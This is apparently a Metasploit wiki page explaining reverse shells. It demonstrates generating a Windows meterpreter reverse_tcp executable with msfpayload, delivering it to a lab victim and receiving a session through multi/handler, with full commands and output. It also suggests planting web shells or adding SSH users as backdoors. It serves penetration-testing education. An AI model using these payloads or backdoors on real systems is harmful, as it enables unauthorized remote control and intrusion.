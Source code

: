 There are two popular types of shells: bind and reverse. A bind shell is the kind that opens up a new service on the target machine, and requires the attacker to connect to it in order to get a session. A reverse shell (also known as a connect-back) is the exact opposite: it requires the attacker to set up a listener first on his box, the target machine acts as a client connecting to that listener, and then finally the attacker receives the shell.

The basic usage of payloads is already quite well documented in the [Users Guide](https://github.com/rapid7/metasploit-framework/blob/master/documentation/users_guide_4.3.pdf) in Metasploit's documentation folder. However, learning how to use a reverse shell still remains the most common question in the Metasploit community. Plus, 9 times out of 10 you'd probably be using a reverse shell to get a session, so in this wiki documentation we will explain more about this.

## List of Metasploit reverse shells

As of now, there are 168 different reverse shells in the Metasploit Framework. We will not list all of them here, because that's just straight up spamming. But if you'd like, you can run the following command to get msfpayload to tell you:

```bash
./msfpayload -l |grep reverse
```

As a rule of thumb, always pick a meterpreter, because it currently provides better support of post exploitation Metasploit has to offer. For example, railgun, post modules, unique meterpreter commands (like webcam controls), etc.

In Windows, the most commonly used reverse shell is windows/meterpreter/reverse. But you can also try windows/meterpreter/reverse_http or windows/meterpreter/reverse_https, because their network traffic appear a little bit less abnormal.

In Linux, you can also try linux/x86/meterpreter/reverse_tcp, or the 64-bit one. However, just know that linux/x86/shell_reverse_tcp has been the most stable.

## When to use a reverse shell

If you find yourself in one of the following scenarios (but not limited to), then you should consider using a reverse shell:

* The target machine is behind a different private network.
* The target machine's firewall blocks incoming connection attempts to your bindshell.
* Your payload is unable to bind to the port it wants due to whatever reason.
* You simply can't decide what to choose.

## When a reverse shell isn't needed

Generally speaking, if you can backdoor an existing service, you may not need a reverse shell. For example: if the target machine is already running a SSH server, then you can try adding a new user to it and use that.

If the target machine is running a web server that supports a server-side programming language, then you can leave a backdoor in that language. For example, many Apache servers support PHP, then you can use a PHP "web shell". IIS servers usually support ASP, or ASP.net. The Metasploit Framework offers payloads in all these languages (and many others).

Same thing for VNC, remote desktop, SMB (psexec), or other remote admin tools, etc.

## How to set up for a reverse shell during payload generation

When you generate a reverse shell with either msfpayload or msfvenom, you must know how to configure the following:

* **LHOST** - This is the IP address you want your target machine to connect to, literally. If you're in a local area network, it is unlikely your target machine can actually reach you unless you both are in the same network. In that case, you will have to [find out your public-facing IP address](https://www.google.com/webhp?q=ip#q=ip), and then configure your network to port-forward that connection to your box. LHOST should not be "localhost", or "0.0.0.0", or "127.0.0.1", because if you do, you're telling the target machine to connect to itself.
* **LPORT** - This the port you want your target machine to connect to.

When you set up a listener for the reverse shell, you also at least need to configure LHOST and LPORT, but slightly different meanings (different perspective):

* **LHOST** - This is the IP address you want your listener to bind to.
* **LPORT** - This is the port you want your listener to bind to.

You should make sure the listener has started first before executing the reverse shell.

## Demonstration

In this demonstration, we have two boxes:

**Box A:**

* The attacker's box that receives the payload session
* IP is: 192.168.1.123 (ifconfig)
* On the same network as the victim machine

**Box B:**

* The "victim" machine
* Windows XP
* IP is: 192.168.1.80 (ipconfig)
* On the same network as the attacker machine
* For testing purposes, no antivirus enabled.
* For testing purposes, no firewall enabled, either.

**Step 1: I generate my executable payload:**

On the attacker's box, I run msfpayload like the following (or msfvenom, whatever you prefer):


```bash
$ ./msfpayload windows/meterpreter/reverse_tcp lhost=192.168.1.123 lport=4444 X > /tmp/iambad.exe  
Created by msfpayload (http://www.metasploit.com).  
Payload: windows/meterpreter/reverse_tcp  
Length: 287  
Options: {"LHOST"=>"192.168.1.123", "LPORT"=>"4444"}  
```

**Step 2: I copy my executable payload to Box B (my victim machine)**
 
This step requires no further explanation.

**Step 3: I set up my payload handler on box A (the attacker's box):**

```bash
$ ./msfconsole -q  
msf > use exploit/multi/handler  
msf exploit(handler) > set payload windows/meterpreter/reverse_tcp  
payload => windows/meterpreter/reverse_tcp  
msf exploit(handler) > set lhost 192.168.1.123
lhost => 192.168.1.123 
msf exploit(handler) > set lport 4444  
lport => 4444  
msf exploit(handler) > run  
  
[*] Started reverse handler on 192.168.1.123:4444  
[*] Starting the payload handler...  
```

**Step 4: I double-click on the malicious executable**
 
This step requires no further explanation.
 
**Step 5: I should see a meterpreter/payload session on box A (the attacker's box)**
 
Like this:


```bash
$ ./msfconsole -q  
msf > use exploit/multi/handler  
msf exploit(handler) > set payload windows/meterpreter/reverse_tcp  
payload => windows/meterpreter/reverse_tcp  
msf exploit(handler) > set lhost 192.168.1.123
lhost => 192.168.1.123
msf exploit(handler) > set lport 4444  
lport => 4444  
msf exploit(handler) > run  
  
[*] Started reverse handler on 192.168.1.123:4444  
[*] Starting the payload handler...  
[*] Sending stage (770048 bytes) to 192.168.1.80  
[*] Meterpreter session 1 opened (192.168.1.123:4444 -> 192.168.1.80:1138) at 2014-10-22 19:03:43 -0500  
meterpreter >  
```

The meterpreter prompt means you are currently interacting with the payload.